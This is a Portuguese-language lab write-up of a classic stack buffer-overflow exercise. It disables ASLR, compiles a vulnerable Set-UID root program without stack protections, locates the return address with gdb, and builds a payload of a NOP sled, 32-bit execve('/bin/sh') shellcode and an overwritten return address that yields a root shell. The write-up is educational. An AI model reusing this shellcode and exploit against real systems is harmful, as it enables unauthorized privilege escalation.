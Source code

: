 # Buffer Overflow

## Environment Setup

> Numa primeira fase, desligamos algumas das proteções do sistema operativo, como por exemplo a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.
>```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
> $ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1: Getting Familiar with Shellcode

> Primeiro executamos um programa simples que abre uma shell utilizando o commando `execve`:
> ```c
> char *name[2];
> name[0] = "/bin/sh";
> name[1] = NULL;
> execve(name[0], name, NULL);
> ```
> De seguida, fizemos o mesmo utilizando o shellcode respetivo e invocando-o desde a stack, tanto para 32 bits como para 64 bits. <br><br>
> Em todos os casos, foi aberta uma shell no mesmo diretório em que foi executado o programa.

## Task 2: Understanding the Vulnerable Program

> Inicialmente estudamos o código do programa com uma vulnerabilidade *buffer-overflow*. Reparamos que tenta-se copiar para um buffer de tamanho máximo de 100 bytes, um array de carateres que pode ter até 517 bytes. Como o `strcpy` não verifica os limites do buffer, acaba por ocorrer overflow. <br><br>
> Para o programa vulnerável, desativamos o *StackGuard* e as proteções contra a execução de código invocado desde a stack. Para além disso, mudamos o owner do programa para `root` e ativamos o `Set-UID`
> ```bash
> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
> $ sudo chown root stack
> $ sudo chmod 4755 stack
> ```

## Task 3: Launching Attack on 32-bit Program

> Para fazer uso da vulnerabilidade, primeiro criamos o ficheiro `badfile` vazio e executamos o código vulnerável em modo debug, de modo a descobrir a posição do endereço de retorno da função `bof()` relativamente ao inicio do buffer. Para isso usámos `gdb` para fazer debug e colocamos um breakpoint na função `bof()`.
> ```bash
> $ touch badfile # Criar o ficheiro badfile vazio
> $ gdb stack-L1-dbg # Executar o programa em modo debug
> ...
> gdb-peda$ b bof # Criar um breakpoint na função bof
> ...
> gdb-peda$ run # Executar o programa até parar no breakpoint
> ...
> gdb-peda$ next # Avançar algumas intruções até que o registo ebp passe de apontar para a stack frame da função bof(), visto que antes ainda apontava para a stack frame da função que chamou bof()
> ...
> gdb-peda$ p $ebp # Obter o valor de ebp
> $1 = (void *) 0xffffca98
> gdb-peda$ p &buffer # Obter o endereço do início do buffer
> $2 = (char (*)[100]) 0xffffca2c
> ```
> Após obter os endereços necessários, falta inserir no ficheiro `badfile` o conteúdo que pretendemos inserir no buffer (shellcode e o endereço de retorno que aponta para esse shellcode). Para isto usamos o programa fornecido em python, com as seguintes alterações <br> <br>
> Na variável `shellcode` inserimos o shellcode em 32-bits que executa uma shell
> ```python
> shellcode= (
>  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
>  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
>  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
> ).encode('latin-1')
> ```
> Criou-se uma array de bytes de tamanho 517 (tamanho máximo da array de carateres lida do ficheiro pelo programa vulnerável), em que todos os bytes são NOP (0x90)
> ```python
> content = bytearray(0x90 for i in range(517))
> ```
> Colocou-se o shellcode no final da array de bytes
> ```py
> start = 517-len(shellcode)  
> content[start:start + len(shellcode)] = shellcode
> ```
> Calculou-se o novo endereço de retorno que aponta para o shell code a executar
> ```py
> ret    = 0xffffca98 + start 
> ```
> Utilizando os 2 endereços obtidos no debug, calculou-se a localização do endereço de retorno relativamente ao inicio do array (offset) e colocou-se o novo endereço de retorno que aponta para o shellcode calculado anteriormente (ret)
> ```py
> offset = 0xffffca98 - 0xffffca2c + 4 
> L = 4  
> content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
> ```
> Executou-se o programa e este gerou o ficheiro `badfile`. <br><br>
> Finalmente, executou-se o programa vulnerável que provocou o buffer overflow e lançou uma shell com permissões root, tal como previsto. <br> <br>
> ![Buffer Overflow](../img/lab5task3.png)